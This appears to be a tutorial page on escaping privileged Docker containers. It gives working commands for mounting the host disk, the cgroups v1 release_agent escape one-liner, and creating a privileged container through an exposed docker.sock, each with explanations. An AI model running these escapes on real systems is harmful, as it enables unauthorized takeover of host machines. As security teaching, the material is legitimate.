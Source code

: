 # Privilege Container

From the description of Docker [--privileged flag](https://docs.docker.com/engine/reference/commandline/run/#full-container-capabilities---privileged), it gives all capabilities to the container, and it also lifts all the limitations enforced by the device cgroup controller. In other words, the container can then do almost everything that the host can do. This flag exists to allow special use-cases, like running Docker within Docker.
Example: `docker run --privileged --name privilege_container -it ubuntu`

## 1. Mount Root

1. We can get the major and minor number of block device:

    ```bash
    #!/bin/bash
    ls -alF /sys/dev/block/ | grep sda1
    ## lrwxrwxrwx 1 root root 0 Aug 12 06:50 8:1 -> ../../devices/pci0000:00/0000:00:01.1/ata1/host0/target0:0:0/0:0:0:0/block/sda/sda1/
    ```

    The **major number** identifies the driver associated with the device. The kernel uses the major number at open time to dispatch execution to the appropriate driver.

    The **minor number** is used only by the driver specified by the major number; other parts of the kernel don’t use it, and merely pass it along to the driver. It is common for a driver to control several devices (as shown in the listing); the minor number provides a way for the driver to differentiate among them.
2. If `/dev/sda1` is not existed, we can use `mknod` to generate block special file.

    ```bash
    #!/bin/bash
    mknod /dev/myroot b 8 1
    ```

3. Create a new folder and mount to block special file.

    ```bash
    #!/bin/bash
    # If sda1 isn't existed
    mkdir rootfs; mount /dev/myroot rootfs
    # Else 
    mkdir rootfs; mount /dev/sda1 rootfs
    ```

4. Create a file in `myroot` folder and compare with the root directory in host machine

    Docker:

    ```bash
    #!/bin/bash
    echo hello, host! > rootfs/hello
    ```

    Host:

    ```bash
    #!/bin/bash
    cat /hello
    ```

## 2. Cgroups v1 release notification

An quick and dirty way to get out of a privileged k8s pod or docker container by using cgroups release_agent feature from [Felix Wilhelm](https://twitter.com/_fel1x/status/1151487051986087936) and [detail](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)

``` bash
#!/bin/bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

### 2.1 Explanation

- `d`:

A special file in the root directory of each cgroup hierarchy, release_agent, can be used to register the pathname of a program that may be invoked when a cgroup in the hierarchy becomes empty. A cgroup is considered to be empty when it contains no child cgroups and no member processes.

- `mkdir -p $d/w;echo 1 >$d/w/notify_on_release`:

The folder w in Cgroups will create a new group and then start the notify_on_release

- `` t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` ``:

Identifies the host path of files within a container by parsing the container root mount point, and extracting the upperdir mount option.

- `` touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh $1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o ``:

Finally, we can execute the attack by spawning a process that immediately ends inside the “w” child cgroup. By creating a /bin/sh process and writing its PID to the cgroup.procs file in “w” child cgroup directory, the script on the host will execute after /bin/sh exits

### 2.2 Example

1. Follow the installation in `example/cgroup`, and run the container.

2. Run:

    ``` bash
    #!/bin/bash
    # See the permission
    ./exp.sh ps
    ./exp.sh id
    ```

## 3. Expose docker.sock

By default, a unix domain socket (or IPC socket) is created at /var/run/docker.sock, requiring either root permission, or docker group membership.

1. Expose docker.sock `docker run -v /var/run/docker.sock:/var/run/docker.sock`

2. Using `curl` to control `docker.sock`

```bash
#!/bin/bash
curl -X POST --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu", "Privileged":true}' -H 'Content-Type: application/json' http://localhost/containers/create
# {"Id":"8e89909670942daa92999f337fb325b4a89f6a2dd2f5fcf9e972ca089c5b751a","Warnings":[]}
curl -X POST --unix-socket /var/run/docker.sock http://localhost/containers/8e89909670942daa92999f337fb325b4a89f6a2dd2f5fcf9e972ca089c5b751a/start
```
